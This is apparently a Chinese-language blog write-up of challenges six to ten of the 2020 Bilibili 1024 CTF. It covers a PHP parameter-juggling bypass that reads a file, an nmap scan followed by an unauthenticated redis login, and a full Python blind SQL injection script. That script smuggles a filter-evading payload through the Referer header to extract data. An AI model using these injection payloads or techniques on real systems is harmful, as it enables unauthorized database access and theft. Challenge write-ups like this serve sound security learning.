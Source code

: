﻿---
title: 哔哩哔哩 1024 安全挑战赛解题思路（后篇）
date: 2020/10/24
updated: 2020/10/24
category: 
- Mist
- CTF
tag: 
- CTF
- 哔哩哔哩
---
又名 bilibili 猜谜竞赛。被 W 拖来玩了。还挺有意思的。

这里是第六到第十题的题解。

<!-- more -->

## 六~十  结束亦是开始

> 结束亦是开始
> 
> 题目地址： http://45.113.201.36/blog/single.php?id=1

第七题到第十题的题面都是这一段：

> 接下来的旅程
> 
> 需要少年自己去探索啦～

另外说一下，原来的 IP 地址是 `120.92.151.189`。

## 十

打开网站。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)](image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)

……？blog？？？

转了一圈什么都没找到。在百无聊赖的时候我顺手把网站里的 single 改成了 test。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)](image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)

草。是 JSFuck。

解码似乎解不出什么。直接复制进 console 里运行一下。

```bash
var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
var str2 = "bilibili1024havefun";
console.log()
```

转换一下。

> 程序员最多的地方

那肯定是 GitHub 啊！

打开 GitHub，直接搜索 `bilibili1024havefun`。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)](image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)

成功找到了一个 php [interesting-1024/end](https://github.com/interesting-1024/end)。点开看看。

```php
<?php

//filename end.php

$bilibili = "bilibili1024havefun";

$str = intval($_GET['id']);
$reg = preg_match('/\d/is', $_GET['id']);

if(!is_numeric($_GET['id']) and $reg !== 1 and $str === 1){
	$content = file_get_contents($_GET['url']);
	
	//文件路径猜解
	if (false){
		echo "还差一点点啦～";
	}else{
		echo $flag;
	}
}else{
	echo "你想要的不在这儿～";
}
?>
```

把网址的 simple 换成 end，果不其然输出了“你想要的不在这儿～”。这个 php 里也没有什么东西。

那么就看看参数。我不是很懂 PHP，所以得搜一下是什么意思。

搜了一下，`intval()` 用来获取变量的整数值。`preg_match()` 不用猜都知道是正则。它匹配到的时候会返回一个整型返回值，`1` 是一维数组。那这个 PHP 的代码就好懂了。它要求一个变量 `id[]` （必须是一维数组），值等于 `1`（如果不传值是不会返回正确的图片的）。然后后面还会跟一个 `url=`。

那么就猜一猜 `url=` 的值是什么。那我盲猜有 flag。

curl 传过去发现不对。那继续猜。随便加个后缀什么的，比如 `.txt`，把它变成文件路径。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

拿到一张图片。存到本地的时候发现文件里带了串奇怪的字符串。估计八成跟 flag 有关。

用 `cat` 命令看一下这张图片。果然文件最后跟了串字符串。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

提交到第六题……居然不对？一个个试过去发现居然是第十题的……草。

看完这个文件后我的 PowerShell 也乱码了……草（二度（

## 八

回到这个 IP 地址。

反正也没什么事情做了，用 nmap 扫一遍它开启的端口与服务。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)

扫出来一个 redis。直接用 IP 地址和端口登上去。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)](image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)

第八题结束。

## 六

超出我能力范围了。直接上源码。

```python
import requests
url = 'http://120.92.151.189/blog/single.php?id=1'
flag = ''
for i in range(1, 100):
    left = 33
    right = 128

    while right-left != 1:
        mid = mid=(left+right)//2
        payload = "0123'^if(substr((selselectect flag from flag),{i},1)>binary {mid},(selecselectt 1+~0),0) ununionion selecselectt 1,2#".format(
            i=i, 
            mid=hex(mid))
        headers = {
            'Referer': payload
        }
        r = requests.get(url=url, headers=headers)
        if len(r.text) == 5596:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print(flag)
```

运行结果如图。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)](image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)

## 七、九

仍然好奇下载下来的图片里，那个奇怪的字符串 `224a634752448def6c0ec064e49fe797`。

## 插曲

[![](image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)](image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)

还是免了吧。

## 用到的工具

- [在线unicode转中文,中文转unicode](https://www.bejson.com/convert/unicode_chinese/)
